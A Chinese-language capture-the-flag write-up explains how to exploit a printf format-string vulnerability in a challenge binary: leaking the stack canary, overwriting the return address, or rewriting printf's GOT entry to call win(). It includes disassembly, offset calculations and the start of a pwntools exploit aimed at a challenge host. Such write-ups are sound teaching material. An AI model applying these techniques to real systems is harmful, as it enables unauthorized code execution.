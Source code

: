 ```c
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x7FuLL);
  printf(&buf, &buf);
  return __readfsqword(0x28u) ^ v2;
}
```

这道题，我用了三种解法，大家可以参考一下：

1. 通过格式化字符串漏洞，泄露canary的值，然后通过栈溢出覆盖返回地址（将泄露的canary值传进去）
2. 有了格式化字符串漏洞，我们就可以做到任意位置读写，泄露buf的地址，直接在`buf+0x98`处写入`win()`函数的地址（buf定义在`rbp-0x90h`，然后加上`8字节的old ebp`，所以**返回地址的位置**在`buf+0x98`处）
3. 我们对GOT表具有写权限，通过格式化字符串，**将GOT中的函数的地址改成win**，这里我用改写的是printf的地址，改完之后在调用一次这个函数就可以执行win函数了。

还有要说明的一点是，通过改写返回地址，由于破坏了原有的栈，所以最后会报错，但是我们的win函数会被执行完，能够出结果（别一看到报错信息就以为失败了，flag就在上面，仔细找找）。通过改写GOT表中的函数地址，这种方法没有破坏栈中的内容，所以不会报错。

## 方法一：

首先，无论哪种方法，都需要用到格式化字符串漏洞，所以需要找到格式化字符串的偏移。通过输入`AAAAAAAA%p`的形式去查找，发现`offset = 6`，buf的位置是`rbp-0x90`， canary的位置是`rbp-8`，可以算一下buf和canary的距离，`(0x90-8) / 8 = 17`，所以我们要泄露的canary在`6 + 17 = 23`处，为什么这么算呢，首先我们通过传入`AAAAAAAA%p`的形式去找偏移，`%p`是**以地址的格式打印**内容，我们发现偏移处为6的地方打印的是`0x4141414141414141`，也就是泄露了`buf`的内容，然后在加上`buf`与`canary`的距离，就能直接泄露canary的值了。通过`%23$p`直接打印offset为23的内容。然后在通过`buffer overflow`覆盖返回地址

![image-20200816131219560](./image-20200816131219560.png)

```c
.text:00000000004009AA                 lea     rax, [rbp+buf]  ; buf的位置是rbp-0x90
.text:00000000004009B1                 mov     rsi, rax
.text:00000000004009B4                 mov     edi, offset format ; "-> %s\n"
.text:00000000004009B9                 mov     eax, 0
.text:00000000004009BE                 call    _printf
.text:00000000004009C3                 nop
.text:00000000004009C4                 mov     rax, [rbp+var_8] ; canary的位置是rbp-8
.text:00000000004009C8                 xor     rax, fs:28h
.text:00000000004009D1                 jz      short locret_4009D8
.text:00000000004009D3                 call    ___stack_chk_fail
```

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))
offset = 6
log.success("offset is {}\n".format(offset))
```